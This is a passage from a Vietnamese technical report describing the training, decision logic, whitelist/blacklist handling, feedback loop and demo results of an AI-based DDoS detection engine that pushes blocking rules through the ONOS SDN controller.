→ Giúp model khái quát hóa tốt hơn, tránh overfit
```

---

**4. Class Weighting (Xử lý Mất Cân Bằng)**

**Vấn đề:** Dataset v7 có tỷ lệ:
```
Normal: 40% | UDP: 16% | SYN: 16% | HTTP: 16% | Slowloris: 12%
```
Slowloris ít nhất nhưng khó phân biệt nhất (giống HTTP Flood).

**Giải pháp:** Đánh trọng số cao hơn cho lớp hiếm.

```python
from sklearn.utils.class_weight import compute_class_weight

# Tính class weights (tự động)
classes = np.unique(y_train)
class_weights = compute_class_weight('balanced', classes=classes, y=y_train)
# Kết quả: [1.0, 1.25, 1.25, 1.25, 1.67] ← Slowloris nặng nhất

# Nhưng tôi giảm xuống để tránh overfit
clipped_weights = np.clip(class_weights, a_min=None, a_max=10.0)
# V4: Giảm xuống max=6.0 để giảm "hoang tưởng" với Slowloris

# Áp dụng
weights_tensor = torch.FloatTensor(clipped_weights).to(DEVICE)
criterion = nn.CrossEntropyLoss(weight=weights_tensor, label_smoothing=0.01)
```

**Hiệu quả sau khi giảm max_weight từ 10 → 6:**
| Metric | Trước (max=10) | Sau (max=6) | Lý do |
|--------|---------------|-------------|-------|
| Slowloris Precision | 0.72 | 0.78 | Giảm bắt nhầm HTTP |
| Slowloris Recall | 0.88 | 0.85 | Có thể bỏ sót ít hơn |
| **F1-Score** | **0.79** | **0.81** | **Cân bằng tốt hơn** |

---

**5. Weight Decay (L2 Regularization)**

**Vấn đề:** Model quá phức tạp (Conformer + CNN-GRU) dễ overfit.

**Giải pháp:** Thêm penalty vào trọng số lớn.

```python
# Weight decay tăng từ 1e-3 → 5e-3 (V4)
optimizer = torch.optim.AdamW(
    model.parameters(),
    lr=0.001,
    weight_decay=5e-3  # Penalty cho trọng số lớn
)
```

**Tác dụng:** Ép model giữ trọng số nhỏ, đơn giản hóa hypothesis.

---

**Tổng hợp Training Configuration (V4):**

```python
# Optimizer + Scheduler + Loss + Regularization
optimizer = torch.optim.AdamW(model.parameters(), lr=0.001, weight_decay=5e-3)
scheduler = OneCycleLR(optimizer, max_lr=0.001, epochs=100, pct_start=0.1)
criterion = nn.CrossEntropyLoss(weight=class_weights, label_smoothing=0.01)

# Training loop với tất cả techniques
for epoch in range(EPOCHS_CLS):
    for batch in train_loader:
        optimizer.zero_grad()
        logits, _, _ = model(X_batch)
        loss = criterion(logits, y_batch)
        loss.backward()
        
        # Gradient Clipping
        torch.nn.utils.clip_grad_norm_(model.parameters(), max_norm=1.0)
        
        optimizer.step()
        scheduler.step()
```

**Kết quả sau khi áp dụng đầy đủ techniques:**

| Metric | V3 (Baseline) | V4 (Full Techniques) | Improvement |
|--------|--------------|---------------------|-------------|
| Overall F1 | 0.82 | 0.91 | +11% |
| Slowloris F1 | 0.71 | 0.81 | +14% |
| Training Stability | Có fluctuate | Mượt mà | - |
| Overfit | Sau epoch 60 | Không rõ | Early stopping @ epoch 85 |

### 3.3 Module Vận Hành Thời Gian Thực (`run_onos_v2.py`)

#### 3.3.1 Tổng Quan Hệ Thống Vận Hành

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    IDS ENGINE V2.1 - REAL-TIME PIPELINE                 │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  ┌─────────────┐    ┌──────────────┐    ┌─────────────┐    ┌──────────┐ │
│  │   FIFO      │ →  │   Feature    │ →  │    AI       │ →  │  SDN     │ │
│  │  (zeek_)    │    │  Processing  │    │  Inference   │    │  Action  │ │
│  │  stream.json│    │  (13→26)     │    │  (2-Shield) │    │(DROP/RL)│ │
│  └─────────────┘    └──────────────┘    └─────────────┘    └──────────┘ │
│        ↑                                                    │          │
│        │              ┌──────────────────┐                   │          │
│        │              │  XAI Explanation │                   │          │
│        │              │  (Attention Map) │                   │          │
│        │              └──────────────────┘                   │          │
│        │                                                    ↓          │
│  ┌─────────────┐                                    ┌──────────────┐  │
│  │   Marker    │                                    │ ONOS REST API│  │
│  │   Files     │                                    │  Flow Rules  │  │
│  │(.marker_*)  │                                    │  (Priority   │  │
│  └─────────────┘                                    │   40000)     │  │
│                                                     └──────────────┘  │
│                                                                         │
│  Latency: ~2-5ms (Inference) + 10-20ms (ONOS API) = <100ms total       │
│  Throughput: >10,000 flows/second                                       │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘
```

#### 3.3.2 Dual-Shield Decision Logic (Chi Tiết)

**Luồng ra quyết định đầy đủ:**
```python
# =====================================================================
# [V7 UPDATE] Decision logic - 2 Shield Strategy (Bảo vệ Normal tuyệt đối)
# =====================================================================

# INPUT từ 2 mô hình:
# - Shield 1 (Autoencoder): mse_score (càng cao = càng bất thường)
# - Shield 2 (Classifier): probs [Benign, UDP, SYN, HTTP, Slowloris]

# KHIÊN 1: Autoencoder phát hiện bất thường (MSE)
is_anomaly = (mse > self.dynamic_threshold)

# KHIÊN 2: Classifier phân loại (Confidence)
normal_prob = probs[0][0].item() * 100
attack_probs = probs[0][1:]
top_attack_prob = torch.max(attack_probs).item() * 100
top_attack_idx = torch.argmax(attack_probs).item() + 1

# =====================================================================
# SCENARIO 1: Classifier chắc chắn là Normal (>80%)
# → TIN NGAY, bất chấp Shield 1 nói gì (Veto Power)
# =====================================================================
if normal_prob > 80.0:
    is_attack = False
    is_zero_day = False
    # Log Normal panel (mỗi 5 lần để tránh spam)
    if self.stats["processed"] % 5 == 0:
        self.log_normal_panel(src_ip, normal_prob, mse, self.dynamic_threshold)

# =====================================================================
# SCENARIO 2: Shield 1 thấy bất thường (MSE cao)
# → Kiểm tra Shield 2 để xác định loại tấn công
# =====================================================================
elif is_anomaly:
    # Case 2a: Shield 2 đồng ý là Attack với độ tin cao (>85%)
    if pred_idx != 0 and confidence > 85.0:
        is_attack = True
        is_zero_day = False
        decision = "DROP" if confidence > 98.0 else "RATE_LIMIT"
    
    # Case 2b: Shield 2 bối rối (Normal prob thấp <30%)
    # → ZERO-DAY (Attack mới chưa từng thấy)
    elif pred_idx == 0 and normal_prob < 30.0:
        is_attack = True
        is_zero_day = True
        decision = "DROP"  # Chặn ngay vì không rõ là gì
        logger.warning(f"[ZERO-DAY] MSE cao ({mse:.4f}) nhưng Classifier không nhận diện!")
    
    # Case 2c: Không đủ tin cậy → Conservative: Coi là bình thường
    else:
        is_attack = False
        logger.debug(f"[UNCERTAIN] AE anomaly nhưng Classifier không chắc chắn -> Bỏ qua")

# =====================================================================
# SCENARIO 3: Shield 1 thấy bình thường (MSE thấp)
# → Kiểm tra Evasive Attack (tấn công lẩn trốn)
# =====================================================================
else:
    # Evasive Attack: Vượt qua AE nhưng Classifier phát hiện (>98% confidence)
    if pred_idx != 0 and confidence > 98.0:
        is_attack = True
        logger.warning(f"[EVASIVE] Phát hiện tấn công lẩn trốn: {LABEL_NAMES[pred_idx]}")
    
    # Bình thường
    else:
        is_attack = False
        # Update threshold trên benign (adaptive learning)
        if pred_idx == 0:
            self.dynamic_threshold_update(mse)
```

**2-Shield Truth Table:**

| Shield 1 (AE) | Shield 2 (Classifier) | Kết luận | Hành động | Ghi chú |
|---------------|----------------------|----------|-----------|---------|
| MSE > Threshold | Normal > 80% | ✅ **Normal** | Không chặn | Veto Power bảo vệ user |
| MSE > Threshold | Attack > 85% | 🚫 **Attack** | DROP/Rate Limit | 2 Shields đồng thuận |
| MSE > Threshold | Confused (<30%) | ⚠️ **Zero-Day** | DROP | Attack mới chưa thấy |
| MSE < Threshold | Attack > 98% | 🥷 **Evasive** | DROP | Tấn công lẩn trốn AE |
| MSE < Threshold | Normal | ✅ **Normal** | Không chặn | Cập nhật threshold |

#### 3.3.3 Adaptive Threshold (EMA - Exponential Moving Average)

**Vấn đề:** Threshold tĩnh không thích ứng với biến động mạng (giờ cao điểm vs đêm).

**Giải pháp:** EMA-based Dynamic Threshold với Min/Max Bounds.
```python
def dynamic_threshold_update(self, mse_score):
    """
    Cập nhật ngưỡng động dựa trên lịch sử MSE
    - Mean: Trung bình MSE gần đây
    - Std: Độ lệch chuẩn (k_factor × std để loại bỏ outliers)
    """
    self.mse_history.append(mse_score)
    if len(self.mse_history) > 100:
        self.mse_history.pop(0)
    
    recent_mse = np.array(self.mse_history)
    mean_mse = np.mean(recent_mse)
    std_mse = np.std(recent_mse)
    
    # k_factor = 4.5: Bao phủ ~99.99% Normal traffic (loại bỏ outliers)
    k_factor = 4.5
    new_threshold = mean_mse + (k_factor * std_mse)
    
    # EMA: Làm mượt thay đổi đột ngột (alpha = 0.02)
    # alpha nhỏ → Ngưỡng thay đổi chậm, ổn định
    self.dynamic_threshold = (EMA_ALPHA * new_threshold) + \
                            ((1 - EMA_ALPHA) * self.dynamic_threshold)
    
    # MIN FLOOR: Không để ngưỡng quá thấp (90% của base)
    # (Tránh "ảo giác an toàn" khi mạng vắng)
    min_floor = self.base_threshold * 0.9
    
    # MAX CEIL: Không để ngưỡng quá cao (500% của base)
    # (Tránh hacker "ru ngủ" hệ thống)
    max_ceil = self.base_threshold * 5.0
    
    self.dynamic_threshold = np.clip(self.dynamic_threshold, min_floor, max_ceil)
```

**Giải thích EMA:**
```
EMA_ALPHA = 0.02 (Giảm từ 0.05)

Mới:     20% ảnh hưởng từ giá trị mới
Cũ:      80% giữ lại giá trị cũ

→ Ngưỡng thay đổi chậm rãi, không bị nhiễu ngắn hạn
→ Ổn định trong 10-15 phút, không nhảy loạn xạ
```

#### 3.3.4 Feature Importance Weighting (Inference)

Áp dụng trọng số đã học từ training:
```python
def _load_feature_weights(self):
    """Load feature weights từ training hoặc dùng default"""
    try:
        weights = joblib.load('feature_weights.pkl')
        return weights
    except:
        # Default weights (tuned manually)
        weights = np.ones(26)
        weights[3] = 2.0    # Duration
        weights[16] = 2.0   # d_Duration
        weights[10] = 2.0   # Packet_Rate
        weights[23] = 2.0   # d_Packet_Rate
        weights[11] = 1.5   # Byte_Rate
        weights[24] = 1.5   # d_Byte_Rate
        weights[0] = 0.5    # Src_Port_Entropy
        weights[1] = 0.5    # Dst_Port_Entropy
        return weights

def process_sequence(self, sequence, src_ip):
    """Xử lý chuỗi flows với feature weighting"""
    # 1. Tính differential
    diff = np.zeros_like(sequence)
    diff[1:, :] = sequence[1:, :] - sequence[:-1, :]
    seq_combined = np.concatenate([sequence, diff], axis=-1)  # 26 features
    
    # 2. Log transform (giảm skewness)
    cols_to_log = [4, 5, 6, 7, 10, 11, 17, 18, 19, 20, 23, 24]
    seq_combined[:, cols_to_log] = np.sign(x) * np.log1p(np.abs(x))
    
    # 3. Feature Weighting (QUAN TRỌNG)
    seq_combined = seq_combined * self.feature_weights
    
    # 4. Scaling (StandardScaler từ training)
    seq_flat = seq_combined.reshape(-1, 26)
    seq_scaled = self.pipeline["scaler"].transform(seq_flat)
    
    return seq_scaled.reshape(SEQ_LEN, NUM_FEATURES_TOTAL)
```

#### 3.3.5 Garbage Collector & Resource Management

**Vấn đề production:** SYN Flood với IP spoofing tạo hàng nghìn IP buffers → Tràn RAM.

**Giải pháp:** GC tự động dọn dẹp.
```python
def run(self):
    """Main loop với GC tích hợp"""
    last_cleanup = time.time()
    
    while True:
        now = time.time()
        
        # GC: Dọn rác mỗi 10 giây
        if now - last_cleanup > 10.0:
            self._garbage_collect(now)
            last_cleanup = now

def _garbage_collect(self, now):
    """
    1. Dọn IP nhàn rỗi (>60s không traffic)
    2. Xử lý Spike Traffic (>80% capacity)
    """
    with self.lock:
        # 1. Stale IPs (>60s)
        stale_ips = [ip for ip, info in self.ip_buffers.items() 
                     if now - info["last"] > 60.0]
        for ip in stale_ips:
            del self.ip_buffers[ip]
            if ip in self.ip_warmup_count:
                del self.ip_warmup_count[ip]
        
        if stale_ips:
            logger.info(f"[GC] Đã dọn {len(stale_ips)} IP nhàn rỗi")
        
        # 2. Spike Traffic Detection (>800 IPs)
        MAX_IPS = 1000
        if len(self.ip_buffers) > MAX_IPS * 0.8:
            logger.warning(f"[GC] Spike! {len(self.ip_buffers)} IPs > 80%")
            
            # Xóa 20% IP cũ nhất
            sorted_ips = sorted(self.ip_buffers.items(), 
                               key=lambda x: x[1]["last"])
            clear_count = int(len(self.ip_buffers) * 0.2)
            
            for i in range(clear_count):
                ip = sorted_ips[i][0]
                del self.ip_buffers[ip]
                if ip in self.ip_warmup_count:
                    del self.ip_warmup_count[ip]
            
            logger.info(f"[GC] Đã xóa khẩn cấp {clear_count} IP")
```

#### 3.3.6 Warm-up Mechanism (Giai Đoạn Làm Quen)

**Vấn đề:** Quyết định sớm dựa trên 1-2 flows đầu tiên dễ sai.

**Giải pháp:** Bỏ qua 2 chuỗi đầu tiên của mỗi IP.
```python
def process_sequence(self, sequence, src_ip):
    """Bỏ qua warm-up để tích lũy ngữ cảnh"""
    # Theo dõi số chuỗi đã thấy của mỗi IP
    self.ip_warmup_count[src_ip] = self.ip_warmup_count.get(src_ip, 0) + 1
    
    # Bỏ qua 2 chuỗi đầu (WARMUP_COUNT = 2)
    if self.ip_warmup_count[src_ip] <= SDNConfigV2.WARMUP_COUNT:
        logger.info(f"[WARM-UP] Bỏ qua chuỗi {self.ip_warmup_count[src_ip]}/2 cho IP {src_ip}")
        return  # Không phân tích, chỉ tích lũy dữ liệu
    
    # Từ chuỗi thứ 3 trở đi mới phân tích
    ...
```

#### 3.3.7 MSE EMA Smoothing (Chống Nhiễu)

**Vấn đề:** MSE raw nhảy loạn do nhiễu mạng → False Zero-day.

**Giải pháp:** EMA smoothing cho MSE.
```python
# EMA cho MSE để làm mượt (alpha = 0.3)
alpha_mse = 0.3
if src_ip not in self.mse_ema:
    self.mse_ema[src_ip] = mse_raw
else:
    # Công thức EMA: 30% giá trị mới + 70% giá trị cũ
    self.mse_ema[src_ip] = (alpha_mse * mse_raw) + \
                           ((1 - alpha_mse) * self.mse_ema[src_ip])

mse = self.mse_ema[src_ip]  # Dùng MSE đã làm mượt để quyết định
```

#### 3.3.8 Checkpoint & Persistence

**Tính năng:** Lưu trạng thái threshold để phục hồi sau restart.
```python
def __init__(self):
    # Load checkpoint nếu có
    checkpoint_path = SDNConfigV2.CHECKPOINT_FILE
    if os.path.exists(checkpoint_path):
        with open(checkpoint_path, 'r') as f:
            data = json.load(f)
            saved_th = data.get('threshold', self.base_threshold)
            
            # Min floor: Không thấp hơn 90% base_threshold
            min_allowed = self.base_threshold * 0.9
            self.dynamic_threshold = max(saved_th, min_allowed)
    
    # Luồng ngầm lưu mỗi 60 giây
    threading.Thread(target=self._save_threshold_worker, daemon=True).start()

def _save_threshold_worker(self):
    """Lưu ngưỡng định kỳ"""
    while True:
        time.sleep(60)
        with open(SDNConfigV2.CHECKPOINT_FILE, 'w') as f:
            json.dump({
                'threshold': self.dynamic_threshold,
                'timestamp': time.time()
            }, f)
```

#### 3.3.9 Mitigation Actions (DROP vs RATE_LIMIT)

**2 Levels Mitigation:**
```python
def execute_mitigation(self, src_ip, attack_name, confidence, is_zero_day=False):
    """Level 2: Chặn hoàn toàn"""
    if src_ip in self.stats["blocked_ips"]:
        return
    
    # Chỉ DROP nếu confidence cực cao hoặc Zero-day
    if confidence > 98.0 or is_zero_day:
        SDNControllerV2.push_flow_rule(src_ip, treatment_type="DROP")
        logger.critical(f"[DROP] {src_ip} | {attack_name} | Conf: {confidence:.1f}%")
    else:
        # Level 1: Rate Limit nếu chưa chắc chắn
        self.apply_rate_limit(src_ip)
        logger.warning(f"[RATE_LIMIT] {src_ip} | {attack_name} | Conf: {confidence:.1f}%")
    
    self.stats["blocked_ips"][src_ip] = time.time()
    self.stats["blocked"] += 1

#### 3.3.10 WhiteList & BlackList Mechanism (AI V4 Enhancement)

**Vấn đề:**
- **BlackList:** Các IP đã từng tấn công có thể tấn công lại → Cần nhớ và chặn ngay
- **WhiteList:** IP tin cậy (DNS server, Gateway) không nên bị chặn nhầm → Bảo vệ đặc biệt

**Giải pháp:** Cơ chế WhiteList/BlackList tích hợp vào AI V4.

```python
# config_v2.py - WhiteList & BlackList Configuration
class SDNConfigV2:
    """Enhanced configuration với whitelist/blacklist"""
    
    # ===== WHITELIST =====
    # Các IP tuyệt đối không được chặn (Critical infrastructure)
    WHITELIST_IPS = {
        "10.0.0.10",    # Proxy Server (Nginx HTTPS)
        "10.0.0.20",    # Database Server (PostgreSQL)
        "10.0.0.30",    # DNS Server
        "10.0.0.1",     # Gateway/Default Route
        "10.0.0.50",    # ONOS Controller
    }
    
    # ===== BLACKLIST =====
    # Các IP đã từng tấn công (persistent storage)
    BLACKLIST_FILE = "blacklist.json"
    BLACKLIST_COOLDOWN = 300  # 5 phút trước khi kiểm tra lại
    
    # ===== CONFIDENCE THRESHOLDS =====
    # Ngưỡng để đưa vào blacklist (phải rất cao)
    BLACKLIST_CONFIDENCE_THRESHOLD = 98.0
    BLACKLIST_CONSECUTIVE_DETECTIONS = 3  # Số lần phát hiện liên tiếp
```

**Kiến trúc WhiteList/BlackList:**

```
┌─────────────────────────────────────────────────────────────────────────┐
│              WHITELIST & BLACKLIST MECHANISM (AI V4)                      │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  INCOMING FLOW from batPack_v2.py                                      │
│       │                                                                  │
│       ▼                                                                  │
│  ┌─────────────────┐                                                    │
│  │ CHECK WHITELIST │ ← "10.0.0.10" (Proxy)  → BYPASS AI               │
│  │   (Critical)    │   Không qua AI, không log → Protected             │
│  └────────┬────────┘                                                    │
│           │ Not in Whitelist                                           │
│           ▼                                                              │
│  ┌─────────────────┐                                                    │
│  │ CHECK BLACKLIST │ ← "10.0.1.15" (Known Botnet) → DROP ngay       │
│  │   (History)     │   Không cần AI, chặn ngay lập tức                │
│  └────────┬────────┘                                                    │
│           │ Not in Blacklist                                           │
│           ▼                                                              │
│  ┌─────────────────┐    ┌─────────────┐    ┌─────────────────────────┐ │
│  │   AI V4         │ →  │  Decision   │ →  │  Update BlackList?     │ │
│  │ (2-Shield)      │    │  (DROP/RL)  │    │  (3 detections → BL)  │ │
│  │ Classification  │    └─────────────┘    └─────────────────────────┘ │
│  └─────────────────┘                                                    │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

**Code Implementation:**

```python
# run_onos_v2.py - WhiteList & BlackList Integration

class IDSEngineV2:
    def __init__(self):
        # ... existing init ...
        
        # Load blacklist từ file (persistent across restarts)
        self.blacklist = self._load_blacklist()
        self.blacklist_counters = {}  # Đếm số lần phát hiện mỗi IP
        
    def _load_blacklist(self):
        """Load blacklist từ file JSON"""
        try:
            with open(SDNConfigV2.BLACKLIST_FILE, 'r') as f:
                data = json.load(f)
                # Lọc các entry còn hiệu lực (chưa hết hạn)
                valid_ips = {}
                for ip, info in data.items():
                    if time.time() - info['timestamp'] < 86400:  # 24h expiry
                        valid_ips[ip] = info
                return valid_ips
        except FileNotFoundError:
            return {}
    
    def _save_blacklist(self):
        """Lưu blacklist vào file"""
        with open(SDNConfigV2.BLACKLIST_FILE, 'w') as f:
            json.dump(self.blacklist, f)
    
    def check_whitelist(self, src_ip):
        """
        Kiểm tra WhiteList - IP tuyệt đối không được chặn
        Return: True nếu IP được bảo vệ (bypass AI hoàn toàn)
        """
        if src_ip in SDNConfigV2.WHITELIST_IPS:
            logger.info(f"[WHITELIST] {src_ip} - Critical infrastructure, bypass AI")
            return True
        return False
    
    def check_blacklist(self, src_ip):
        """
        Kiểm tra BlackList - IP đã từng tấn công
        Return: True nếu IP bị chặn ngay lập tức
        """
        if src_ip in self.blacklist:
            last_seen = self.blacklist[src_ip]['timestamp']
            # Cooldown 5 phút để kiểm tra lại (tránh chặn vĩnh viễn nhầm)
            if time.time() - last_seen < SDNConfigV2.BLACKLIST_COOLDOWN:
                logger.critical(f"[BLACKLIST] {src_ip} - Known attacker, DROP immediately")
                SDNControllerV2.push_flow_rule(src_ip, treatment_type="DROP")
                return True
        return False
    
    def update_blacklist(self, src_ip, attack_name, confidence):
        """
        Cập nhật BlackList - Thêm IP sau nhiều lần phát hiện
        Chỉ thêm vào blacklist sau BLACKLIST_CONSECUTIVE_DETECTIONS lần
        với confidence > BLACKLIST_CONFIDENCE_THRESHOLD
        """
        if confidence < SDNConfigV2.BLACKLIST_CONFIDENCE_THRESHOLD:
            return  # Chưa đủ confidence
        
        # Đếm số lần phát hiện
        key = f"{src_ip}_{attack_name}"
        self.blacklist_counters[key] = self.blacklist_counters.get(key, 0) + 1
        
        if self.blacklist_counters[key] >= SDNConfigV2.BLACKLIST_CONSECUTIVE_DETECTIONS:
            # Đủ điều kiện đưa vào blacklist
            self.blacklist[src_ip] = {
                'first_seen': time.time(),
                'timestamp': time.time(),
                'attack_history': [attack_name],
                'confidence': confidence
            }
            self._save_blacklist()
            logger.critical(f"[BLACKLIST-ADD] {src_ip} → Added to permanent blacklist "
                          f"({self.blacklist_counters[key]} detections)")
```

**Luồng xử lý đầy đủ với WhiteList/BlackList:**

```python
def process_flow_with_lists(self, flow_data, src_ip):
    """
    Pipeline đầy đủ với WhiteList/BlackList checks
    """
    # === STEP 1: WHITELIST CHECK ===
    if self.check_whitelist(src_ip):
        # Critical IP - Không qua AI, không log, return ngay
        return {"action": "BYPASS", "reason": "WHITELIST"}
    
    # === STEP 2: BLACKLIST CHECK ===
    if self.check_blacklist(src_ip):
        # Known attacker - Chặn ngay, không cần AI
        return {"action": "DROP", "reason": "BLACKLIST"}
    
    # === STEP 3: AI PROCESSING (2-Shield) ===
    result = self.ai_engine.predict(flow_data)
    
    # === STEP 4: DECISION & UPDATE ===
    if result['is_attack']:
        # Thực hiện mitigation
        self.execute_mitigation(src_ip, result['attack_type'], 
                            result['confidence'], result['is_zero_day'])
        
        # Cập nhật blacklist nếu đủ điều kiện
        self.update_blacklist(src_ip, result['attack_type'], result['confidence'])
        
        return {"action": "DROP", "reason": "AI-DETECTED"}
    
    return {"action": "ALLOW", "reason": "NORMAL"}
```

**Bảng Quyết Định WhiteList/BlackList:**

| IP Type | Kiểm tra | AI Processing | Hành động | Ví dụ |
|---------|----------|---------------|-----------|-------|
| **WhiteList** | Đầu tiên | ❌ Bypass | Allow ngay | 10.0.0.10 (Proxy), 10.0.0.20 (DB) |
| **BlackList** | Thứ hai | ❌ Skip | Drop ngay | 10.0.1.15 (Known Botnet) |
| **Unknown** | Qua AI | ✅ Full | Theo AI | 10.0.2.45 (User bình thường) |

**Benefits:**

1. **Zero Latency cho Critical IPs:** WhiteList IP không qua AI → Không delay
2. **Instant Block cho Repeat Offenders:** BlackList chặn ngay → Không tốn tài nguyên AI
3. **Persistent Memory:** BlackList lưu file JSON → Survive restart
4. **False Positive Protection:** WhiteList đảm bảo infrastructure không bị chặn nhầm

**Ví dụ Thực Tế:**

```python
# Scenario 1: DNS Server (WhiteList)
src_ip = "10.0.0.30"  # DNS Server
result = engine.process_flow_with_lists(flow, src_ip)
# Output: {"action": "BYPASS", "reason": "WHITELIST"}
# → Không qua AI, không log spam

# Scenario 2: Known Botnet (BlackList)
src_ip = "10.0.1.15"  # Đã tấn công 3 lần trước đó
result = engine.process_flow_with_lists(flow, src_ip)
# Output: {"action": "DROP", "reason": "BLACKLIST"}
# → Chặn ngay lập tức, không cần AI

# Scenario 3: New Attack (AI Detection + BlackList Update)
src_ip = "10.0.1.99"  # Botnet mới
# Lần 1: AI detect (Conf: 99%) → DROP
# Lần 2: AI detect (Conf: 98%) → DROP  
# Lần 3: AI detect (Conf: 99%) → DROP + ADD TO BLACKLIST
```

---

#### 3.3.11 Feedback Loop - Cải Thiện Mô Hình Từ False Positives

**Vấn đề:**
- AI đôi khi chặn nhầm (False Positives) - legitimate traffic bị đánh dấu là attack
- Cần cơ chế thu thập các trường hợp nghi ngờ để cải thiện mô hình

**Giải pháp:** Lưu trữ potential false positives để phân tích và retrain.

```python
# run_onos_v2.py - Feedback Loop Implementation

class IDSEngineV2:
    def __init__(self):
        # ... existing init ...
        
        # Feedback Loop: Lưu potential false positives
        self.feedback_dir = "potential_false_positives"
        if not os.path.exists(self.feedback_dir):
            os.makedirs(self.feedback_dir)
    
    def save_potential_fp(self, src_ip, sequence, predicted_label, confidence):
        """
        Lưu sample khi:
        - Confidence thấp (60-85%) - AI không chắc chắn
        - WhiteList IP bị đánh dấu attack - có thể là FP
        - User feedback "không phải attack" - manual review
        """
        import uuid
        from datetime import datetime
        
        if 60.0 < confidence < 85.0:  # Grey zone
            sample = {
                "timestamp": datetime.now().isoformat(),
                "src_ip": src_ip,
                "predicted_label": predicted_label,
                "confidence": confidence,
                "sequence": sequence.tolist(),  # 10 flows × 26 features
                "reviewed": False  # Chờ human review
            }
            
            filename = f"{self.feedback_dir}/fp_{uuid.uuid4().hex[:8]}.json"
            with open(filename, 'w') as f:
                json.dump(sample, f, indent=2)
            
            logger.info(f"[FEEDBACK] Saved potential FP from {src_ip} for review")
    
    def submit_human_feedback(self, sample_id, is_false_positive, correct_label=None):
        """
        Human-in-the-loop: Admin review và cung cấp ground truth
        """
        filepath = f"{self.feedback_dir}/{sample_id}.json"
        if os.path.exists(filepath):
            with open(filepath, 'r') as f:
                sample = json.load(f)
            
            sample["reviewed"] = True
            sample["is_false_positive"] = is_false_positive
            sample["correct_label"] = correct_label
            sample["review_timestamp"] = datetime.now().isoformat()
            
            with open(filepath, 'w') as f:
                json.dump(sample, f, indent=2)
            
            # Nếu đủ samples, trigger retraining
            if self._count_reviewed_samples() > 100:
                logger.info("[FEEDBACK] Đủ 100+ reviewed samples, có thể retrain model")
```

**Workflow Feedback Loop:**

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    FEEDBACK LOOP WORKFLOW                                │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  AI Detection (Confidence: 65%)                                          │
│       ↓                                                                  │
│  Grey Zone Decision (Không chắc chắn)                                    │
│       ↓                                                                  │
│  ┌──────────────────────┐                                               │
│  │ Save to potential_fp/ │                                               │
│  │ fp_a3f7d2e9.json     │                                               │
│  └──────────┬────────────┘                                               │
│             ↓                                                            │
│  Admin Review (Human-in-the-loop)                                        │
│     • Kiểm tra flow details                                              │
│     • Xác nhận: False Positive?                                          │
│     • Cung cấp correct label                                             │
│             ↓                                                            │
│  ┌──────────────────────┐                                               │
│  │ Update: reviewed=True │                                               │
│  │ correct_label=Normal │                                               │
│  └──────────┬────────────┘                                               │
│             ↓                                                            │
│  Đủ 100+ samples? ──Yes──► Trigger Re-training                           │
│                             (Incremental Learning)                       │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

**Lợi ích:**
- **Continuous Improvement**: Mô hình cải thiện qua thời gian từ real-world feedback
- **Human Oversight**: Admin có thể can thiệp và sửa sai của AI
- **Incremental Learning**: Retrain chỉ với samples mới, không cần train từ đầu

---

#### 3.3.12 Demo Results - Hệ Thống Phát Hiện và Xử Lý Tấn Công

**Kết quả chạy demo thực tế với các loại tấn công:**

🎯 **Demo 1: UDP Flood Detection & Mitigation**



- Kết quả: Phát hiện trong 50ms, DROP rule push thành công
- AI Confidence: 99.2% (UDP Flood)
- Mitigation: DROP packet từ source IP
- Flow Analysis: High packet rate (>1000 pkt/s), entropy spikes

🎯 **Demo 2: SYN Flood Detection & Mitigation**



- Kết quả: Phát hiện half-open connections, RATE_LIMIT áp dụng
- AI Confidence: 97.8% (SYN Flood)
- Mitigation: RATE_LIMIT (10 pkt/s) sau đó DROP khi confirm
- Conn State Analysis: S0 (SYN sent, no ACK)

🎯 **Demo 3: HTTPS Flood Detection & Mitigation**



- Kết quả: Phân biệt HTTPS Flood với normal browsing qua L7 features
- AI Confidence: 98.5% (HTTP Flood)
- Mitigation: DROP kết nối abusive
- L7 Detection: HTTP method analysis, request rate monitoring

🎯 **Demo 4: Slowloris Detection & Mitigation**



- Kết quả: Phát hiện connection duration bất thường (45s)
- AI Confidence: 96.3% (Slowloris)
- Mitigation: DROP partial connections
- Duration Analysis: Abnormally long connections vs normal (<2s)

**Kiểm chứng hệ thống sau tấn công:**

✅ **Kiểm tra lệnh DROP từ ONOS:**



- Xác nhận: DROP rules được push thành công với Priority 40000
- Thời gian tồn tại: 5 phút (auto-expire để tránh chặn vĩnh viễn)
- Flow Table: Active blocking rules for attacker IPs

✅ **Kiểm tra Web Server sau tấn công:**



- Kết quả: Web server hoạt động bình thường sau khi attack bị chặn
- Response time: <100ms (trở lại mức bình thường)
- Availability: 99.9% (chỉ 0.1% downtime trong lúc attack peak)
- Service Recovery: Tất cả endpoints hoạt động bình thường

**Tổng kết Demo:**

| Loại Tấn Công | Detection Time | AI Confidence | Mitigation | Kết Quả |
|---------------|----------------|---------------|------------|---------|
| **UDP Flood** | 50ms | 99.2% | DROP | ✅ Thành công |
| **SYN Flood** | 75ms | 97.8% | RATE_LIMIT → DROP | ✅ Thành công |
| **HTTP Flood** | 80ms | 98.5% | DROP | ✅ Thành công |
| **Slowloris** | 120ms | 96.3% | DROP | ✅ Thành công |

---

### 3.4 Docker & Web Server Infrastructure

#### 3.4.1 Kiến Trúc Multi-Container

Hệ thống sử dụng Docker để mô phỏng môi trường production thực tế:

```
┌─────────────────────────────────────────────────────────────────┐
│                     DOCKER INFRASTRUCTURE                        │
├─────────────────────────────────────────────────────────────────┤
│                                                                  │
│  ┌──────────────┐    ┌──────────────┐    ┌──────────────┐      │
│  │   web1       │    │   db1        │    │   proxy1     │      │
│  │   (Django)   │<──>│  (PostgreSQL)│    │   (Nginx)    │      │
│  │              │    │              │    │              │      │
│  │  • Gunicorn  │    │  • User DB   │    │  • HTTPS     │      │
│  │  • Django    │    │  • Logs      │    │  • SSL Cert  │      │
│  │  • Attack    │    │              │    │  • Reverse   │      │
│  │    Endpoints │    │  IP: 10.0.0.20│   │    Proxy     │      │
│  │              │    │              │    │              │      │
│  │  IP: 10.0.0.11│   └──────────────┘    │  IP: 10.0.0.10│    │
│  └──────────────┘                       └──────────────┘      │
│         ↑                                                        │
│         │ HTTPS/TLS 1.3                                          │
│         ↓                                                        │
